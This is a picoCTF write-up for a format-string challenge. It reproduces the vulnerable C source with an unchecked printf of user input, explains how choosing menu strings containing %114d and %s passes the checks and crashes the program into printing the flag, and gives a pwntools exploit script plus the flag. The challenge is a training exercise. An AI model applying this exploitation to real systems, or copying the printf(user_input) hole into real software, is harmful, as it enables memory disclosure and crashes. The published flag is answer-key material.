

# TASK1 - Writeup

## Description


## Solution

In this challenge we are given the source code.

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

int on_menu(char *burger, char *menu[], int count) {
    for (int i = 0; i < count; i++) {
        if (strcmp(burger, menu[i]) == 0)
            return 1;
    }
    return 0;
}

void serve_patrick();

void serve_bob();


int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();

    return 0;
}

void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
            "Good job! Patrick is happy!",
            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}

```

To solve this task we need to pass the first check in `server_patrick` function in which it require us to choose a string between 3 options `"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"` such its length is longer than 64, but the 3 strings appear to be a lot smaller than the required condition.
In this case the idea is we should choose the second string which has the `%114d` format specifier that will add 114 white spaces allowing us to bypass the first check.

To get the flag we should bypass the second check in `serve_bob` function, for that we will choose the third option `"Cla%sic_Che%s%steak"` which has three `%s` format specifier which will dump the flag from memory.



## Exploit

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template format-string-0 --host mimas.picoctf.net --port 53116
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'format-string-0')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'mimas.picoctf.net'
port = int(args.PORT or 53116)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.recvuntil(b'Enter your recommendation: ')
io.sendline(b'Gr%114d_Cheese')

io.recvuntil(b'Enter your recommendation: ')
io.sendline(b'Cla%sic_Che%s%steak')

io.recvline()

flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")


```

## Flag

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```
